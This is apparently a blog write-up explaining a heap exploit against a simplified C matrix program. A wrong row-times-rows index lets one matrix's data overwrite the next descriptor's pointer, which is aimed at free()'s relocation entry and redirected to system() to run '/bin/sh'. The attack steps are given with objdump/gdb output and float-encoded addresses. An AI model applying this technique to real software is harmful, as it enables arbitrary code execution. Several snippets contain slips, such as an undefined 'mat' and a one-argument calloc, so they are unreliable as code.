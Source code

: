 ```yaml
---
layout: post
title: A Tale Of Indices
tags:
excerpt: Exploting bad indexing code to mess with malloc and the PLT
---
```


This is the story of how bad indexing code can lead to an exploit. Even though
this is on the heap, most of it doesn't actually involve malloc that much, but
relies on a specific feature of it: memory blocks are adjacent. However, it does
involve messing with the plt!

<!--more-->

# A Wild Bug Appears

First, the code. This is not exactly the original code, but simplified quite a
bit (removing the input logic, much checking and other functionality).

``` c
struct matrix
{
	int rows, cols;
	float* data; // allocated in the heap, has rows * cols floats
};

struct matrix* matrices[64]; // each matrix is allocated in the heap

float* get_addr(int id, int row, int col)
{
	// assume these values have been checked and are in range
	return &matrices[id]->data[row * mat->rows + col];
}

float get(int id, int row, int col)
{
	return *get_addr(id, row, col);
}

void set(int id, int row, int col, int val)
{
	*get_addr(id, row, call) = val;
}

int allocate(int rows, int cols)
{
	int id = get_free_id(); // logic somewhere else
	matrices[id] = malloc(sizeof(struct matrix));
	matrices[id]->rows = rows;
	matrices[id]->cols = cols;
	matrices[id]->data = calloc(sizeof(float) * rows * cols);
}

void release(int id)
{
	free(matrices[id]->data);
	free(matrices[id]);
	matrices[id] = 0;
}
```

Can you find the bug? Hint: it's in `get_addr`. The matrix indexing is
incorrect, it should be `row * mat->cols + col`. See the difference? This
overflow is what allows the shell to be spawned.

# A note on float conversion

In this program, memory is only accessible as floats. While inconvenient, this
is still usable as floats also take up the same space as ints, 4 bytes. With
enough digits, we can be guaranteed to get an identical value when we set it. To
find this value, we can use a union:

``` c
int main()
{
	union {
		int a;
		float b;
	};
	// set a or b here
	// e.g. a = 0x100
	printf("%8x %.9g", a, b);
}
```

Later on, we'll also write strings. Since the system is little endian (x86), we
just use the characters' ASCII value, in reverse order (for each 4-byte chunk).

# Exploit Preparation

Firstly, a bit on `malloc()`. It obtains memory from the system (usually via
`mmap()`), and divides it up into chunks. These are then allocated when
requested by the programmer. Since the block given is the first that fit the
size, this results in the matrices and their descriptors being allocated right
next to each other:

``` raw
+-------------+-------------------+-------------+-------------------+
| (sz) | mat1 | (sz) | mat1->data | (sz) | mat2 | (sz) | mat2->data |
+-------------+-------------------+-------------+-------------------+
```
As a result, we can exploit the bad indexing to overwrite the matrix descriptor
(in this case mat2) from the previous data block (mat1->data). Through this, we
can overwrite the data pointer of mat2 to whatever we want, allowing us to write
to any location in memory. One potential target is the plt (procedural link
table), which lists the location of functions of dynamically loaded libraries
(e.g. libc). However, one specific entry is of interest - `free()`. When
matrices are released, this is called on user-editable data, and with that as
the only argument. `system()` also takes a pointer as a single argument!

However, there is a problem: dynamic libraries can be loaded anywhere, and so
can `system()`. However, it is always at the same offset from `free()`, and we
can use that, along with the existing plt entry to calculate the position of
`system()`.

# Actual Exploit

First, we need to get some information:

``` raw
$ objdump -R matrix | grep free
0804a10c R_386_JUMP_SLOT   free
$ gdb -q matrix
Reading symbols from matrix...(no debugging symbols found)...done.
(gdb) p __libc_system - __libc_free
$1 = -228656
```

Now, we perform the actual exploit. First, we create 2 matrices which have more
rows than columns (e.g. 8*7). We then create and release another matrix. This is
required to initialize the plt entry to the actual location of `free()`
(`__libc_free()`), from which we can figure out the location of `system()` using
the offset. We now can use the overflowing get_addr logic to overwrite mat2's
data pointer to point to 0x0804a10c (the address of the plt entry).

``` c
allocate(8, 7); // id 0
allocate(8, 7); // id 1
allocate(1, 1); // id 2
release(2);
```

Now, how do we figure out where to write to overwrite that pointer? Since it's
the last element of the struct, we search down from the top, until we get to the
second non-zero value. Why second? Because the first would be the size of the
next block, and we have no need overwriting that. From my tests, it appears that
with an 8*7 matrix, the value is located at [7,4], which we overwrite with the
float equivalent of 0x0804a10c.

``` c
set(0, 7, 4, 3.991161479e-34); // mat[7][4] = 0x0804a10c
```

Then, we can get the current value of the plt entry, which would be the address
of `__libc_free()`. We can add the offset (-228656) to this to get the address
of `__libc_system()` and overwrite the exiting value with this.

``` c
get(1, 0, 0); // returns -4.468552546e+33 == 0xf75c5110
set(1, 0, 0, -4.397786941e+33); // mat[0][0] = 0xf758d3e0 == (0xf75c5110 - 228656)
```

Now that we have overwritten `free()`, we can write the payload, which is
"/bin/sh" (you can use any command here though). And we execute the command by
freeing that matrix.

``` c
set(0, 0, 0, 1.805717599e+28); // mat[0][0] = 0x6e69622f == '/bin'
set(0, 0, 1, 9.592211688e-39); // mat[0][0] = 0x0068732f == '/sh\0'
release(0);
$
```

Shell!
